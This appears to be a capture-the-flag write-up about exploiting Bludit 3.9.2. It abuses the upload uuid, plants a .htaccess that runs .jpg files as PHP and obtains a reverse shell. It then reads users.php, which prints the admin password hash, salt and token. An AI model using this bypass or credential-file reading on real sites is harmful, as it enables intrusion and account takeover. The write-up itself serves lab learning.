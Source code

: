 Things to look at:

1. There's a filter to the extension of uploaded files. We must thus upload only image files.

2. `POST` ajax data involves both the `uuid` and `tokenCSRF`.

3. A quick search gave the role of uuid in uploading images using ajax: [new](https://medium.com/@rustyonrampage/uploading-images-to-node-express-using-ajax-straightforward-way-7a9d12a48d48) and [old](https://github.com/balderdashy/sails/issues/27). In brief, the following happens:

`newFileName= uuid + "." + _.str.fileExtension(file.name),`

This is where the uuid abuse comes in. The server allows `uuid` and `CSRF` token to be submitted in a form:

```html
<input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="c42a453f13f005e2da8c4e5546b8ca83d947920f">

<input type="hidden" id="jsparent" name="parent" value="">

<input type="hidden" id="jsuuid" name="uuid" value="d39be04b8fed489d1927f1264f5ec7bf">

<input type="hidden" id="jstype" name="type" value="published">

<input type="hidden" id="jscoverImage" name="coverImage" value="">

<input type="hidden" id="jscontent" name="content" value="">
```

Now comes the `.htaccess` stuff.

```s
RewriteEngine off
AddType application/x-httpd-php .jpg
```

The first line is simply turning rewriting off in a particular subdirectory. The second one allows running a php file with a jpg extension [source](https://stackoverflow.com/questions/8025236/is-it-possible-to-execute-php-with-extension-file-php-jpg).


Moreover, landing on the login page before login gives a different token (ex. `b60296a3db218d9a8c25c4f4289c35543282137a`) than after loggin in (ex. `5255f84b2a129ee7a02b23664c520a18b00e7b58`).

Reverse shell opened.

## Stage II exploit (Postexploitation)

### User flag

```s
cat /var/www/bludit-3.9.2/bl-content/databases/users.php
```

Response:

```s
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
```